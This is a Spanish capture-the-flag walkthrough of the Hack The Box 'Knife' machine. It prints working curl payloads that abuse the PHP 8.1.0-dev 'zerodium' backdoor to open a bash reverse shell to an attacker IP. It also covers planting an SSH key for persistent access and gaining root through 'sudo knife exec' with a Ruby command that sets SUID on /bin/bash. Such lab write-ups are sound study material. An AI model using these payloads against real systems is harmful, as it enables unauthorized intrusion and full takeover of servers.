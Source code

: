 # KNIFE MACHINE

![[Pasted image 20210524152701.png]]

## ENUMERACION

Vemos que puertos abiertos tiene

```
nmap -p- --opent -T5 -n -v 10.129.112.108 -oG allPorts
```

![[Pasted image 20210524152957.png]]

vamos a enumerar los servicios:

```
nmap -p22,80 -sC -sV 10.129.112.108 -oN targeted
```

![[Pasted image 20210524155613.png]]

tiene el ssh que debe ser para conectarse en un futuro y el puerto 80 que es una pagina web, veamos que hay:

![[Pasted image 20210524153211.png]]

Esta pagina es muy interesante pues con wfuzz y gobuster no hemos logrado identificar subdominios o directorios. La pagina no utiliza ningun framework o CMS. Parecia no tener nada pero ahi es cuando se aprende algo y es el uso de una enumeracion con pinzas.

Wappalyzer nos muestra estas tecnologias:

![[Pasted image 20210524153827.png]]

vemos PHP 8.1.0 y apache 2.4.41 se va con lo que se tiene. Vamos a hacer un banner grabbing a la pagina para ver que informacion nos puede mostrar que normalmente cuando se encuentra algo con wfuzz la obviamos.

## EXPLOTACION

Hicimos un banner grabbing a la pagina para ver si nos detalla algua tecnologia:

### FORMAS DE HACER BANNER GRABBING

```
curl -I 10.129.112.108

-I es solo para mostrar headres
```

```
wget -q -S 10.129.112.108

-q para desactivar la salida del wget
-S para mostrar headers
```

```
whatweb http://10.129.112.108
```

![[Pasted image 20210524155056.png]]

vemos las versiones de las tecnologias que enumeramos mas un detalle, la version de PHP es la 8.1.0-dev que eso no mostraba el wappalyzer.

Vamos a buscar algo con esa version de PHP. Tanto buscar di con este repositorio:

[https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

Mediante la adicion de una cabecera "User-Agentt" (con doble t) le indicamos la palabra 'zerodium' y despues una instruccion en codigo php, nos lo interpreta.

Mediante el codigo del ese repositorio me guie para enviar la cabecera:

![[Pasted image 20210524163042.png]]

vemos que la cabecera tiene el valor de zerodiumsystem();, esto es porque en php puedes ejecutar comandos del sistema de diferentesformas entre ellas con system():

```
exec() -> ejecuta un programa externo
shell_exec() -> devuelve la salida como una cadena
system() -> muestra la salida como es
```

podemos usar el script del repositorio o curl para mandar esta cabecera, vamos a usar curl para mandarnos una bash a nosotros. Estaremos escuchando en el puerto 4242:

```
curl -i -H "User-Agentt: zerodiumsystem('/bin/bash -c \"bash -i >& /dev/tcp/10.10.16.30/4242 0>&1\"');" 10.129.112.108

-H para enviar headers
```

![[Pasted image 20210524164019.png]]

vemos que entramos como james.

Tambien podriamos hacer:

```
curl -i -H "User-Agentt: zerodiumexec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.16.30/4242 0>&1\"');" 10.129.112.108

curl -i -H "User-Agentt: zerodiumshell_exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.16.30/4242 0>&1\"');" 10.129.112.108
```

Ya que estas funciones nos permiten ejecutar comandos, ya podemos ver la flag:

![[Pasted image 20210524164303.png]]

si vemos que en la misma ruta se tiene el directorio oculto .ssh podemos conectarnos por ssh con su id_rsa:

```
ls -la
```

![[Pasted image 20210524164502.png]]

nosotros somos los propietarios, ingresamos a la carpeta:

```
cd .ssh
ls
```

![[Pasted image 20210524164554.png]]

vemos unas llaves publicas ya creadas, podemos crear otras y poner una contraseña que sepamos:

```
ssh-keygen

<enter>

overwrite <yes>

passphrase <algo que nos acordemos> 12345
repeat passphrase <12345>

```

![[Pasted image 20210524164815.png]]

con eso creamos otra identidad RSA para ssh, lo sobrescribimos la existente. Vemos que tenemos 2 archivos:

![[Pasted image 20210524164915.png]]

una es una clave publica y otra privada, vamos a crear un archivo llamado **authorized_keys** donde vamos a agregar la clave publica. Este archivo va a dejar autorizar a todo aquel que proporcione su clave par (privada) a la hora de autenticarse.

```
touch authorized_keys

cat ad_rsa.pub

echo "id_rsa.pub output" > authorized_keys
```

![[Pasted image 20210524165305.png]]

ahora vamos a copiarnos a nuestra equipo kali en un archivo llamado id_rsa la clave privada y le otorgaremos el permiso 600:

```
chmod 600 id_rsa
```

![[Pasted image 20210524165506.png]]

y nos autenticaremos como el usuario james a la maquina pero en lugar de contraseña le vamos a proporcionar nuestra clave privada:

```
ssh -i id_rsa james@10.129.112.108
<enter>
<colocamos el passphrase>
```

![[Pasted image 20210524165707.png]]

ya estamos como james a traves de ssh.


## ELEVACION DE PRIVILEGIOS

vemos que puede ejecutar como sudo este usuario:

```
sudo -l
```

![[Pasted image 20210524165904.png]]

vemos que puede ejecutar **/usr/bin/knife** la verdad no sabia que es esto por lo que google nos ayuda bastante busque "/usr/bin/knife linux" en google y el primer enlace mostraba una documentacion de un programa.

[https://docs.chef.io/workstation/knife_setup/](https://docs.chef.io/workstation/knife_setup/)

![[Pasted image 20210524170211.png]]

Y al parecer chef es una herramienta de Devops.

Vi y en la foto muestra que se tiene que configurar un archivo de configuracion con extension rb por lo que puede deducir que interpreta el lenguaje ruby.

Bueno la idea es escalar privilegios asi que vamos a ver si knife puede ejecutar algun comando en ruby, asi lo busque en gogle y encontré esto:

[https://docs.chef.io/workstation/knife_exec/](https://docs.chef.io/workstation/knife_exec/)

![[Pasted image 20210524171111.png]]

Es posible ejecutar un script en ruby y como lo puede ejecutar el sudo podemos ver como ejecutar comandos de sistema en ruby.

En este caso al poder ejecutar un comando como sudo (root) se puede realizar la escalacion de varias formas pero lo que haremos es colocar el permiso SUID a /bin/bash.

creamos un archivo en ruby y le comocamos esto:

```
system("chmod 4755 /bin/bash")
```

con syste podemos ejecutar comandos a nivel de sistema en ruby, una vez ejecutado esto solo seria hacer un /bin/bash -p y seriamos root:

```
echo 'system("chmod 4755 /bin/bash")' > test.rb

sudo /usr/bin/knife exec test.rb

/bin/bash -p
```

![[Pasted image 20210524171612.png]]

### OPCION 2

creamos un script en ruby que directamente nos muestre la flag

```
echo 'system("cat /root/root.txt")' > test.rb

sudo /usr/bin/knife exec test.rb

```
 
 ## NOTA
 
 ya como root podemos aplicar lo del id_rsa ya que se tiene el directorio .ssh en la ruta /root